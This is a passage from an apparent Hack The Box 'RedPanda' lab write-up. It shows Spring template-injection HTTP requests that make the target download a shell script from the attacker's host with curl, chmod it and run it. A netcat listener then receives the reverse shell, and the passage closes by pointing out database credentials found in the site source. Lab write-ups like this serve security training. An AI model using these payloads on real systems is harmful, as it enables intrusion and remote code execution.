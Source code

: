 ```http
Connection: close
Referer: http://10.10.11.170:8080/stats?author=woodenk
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

name=*{T(java.lang.Runtime).getRuntime().exec('curl+-o+shell.sh+http://10.10.14.9/shell.sh')}
```
change permission to the shell:  
```http
POST /search HTTP/1.1
Host: 10.10.11.170:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 68
Origin: http://10.10.11.170:8080
Connection: close
Referer: http://10.10.11.170:8080/stats?author=woodenk
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

name=*{T(java.lang.Runtime).getRuntime().exec('chmod+777+shell.sh')}
```
and execute the shell:  
```http
POST /search HTTP/1.1
Host: 10.10.11.170:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 63
Origin: http://10.10.11.170:8080
Connection: close
Referer: http://10.10.11.170:8080/stats?author=woodenk
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

name=*{T(java.lang.Runtime).getRuntime().exec('bash+shell.sh')}
```
And then we gain a shell on our listener:  
```shell
root@kali:~/Documents/HTB/Boxes/RedPanda# nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.11.170] 38256
bash: cannot set terminal process group (892): Inappropriate ioctl for device
bash: no job control in this shell
woodenk@redpanda:/tmp/hsperfdata_woodenk$ id
id
uid=1000(woodenk) gid=1001(logs) groups=1001(logs),1000(woodenk)
```
## Root
Once we log in, we can poke around on site code and notice the following mysql credentials:  
```shell
src/main/java/com/panda_search/htb/panda_search/MainController.java:            Class.forName("com.mysql.cj.jdbc.Driver");
src/main/java/com/panda_search/htb/panda_search/MainController.java:            conn = DriverManager.getConnection("jdbc:mysql://localhost:3306/red_panda", "woodenk", "RedPandazRule");
```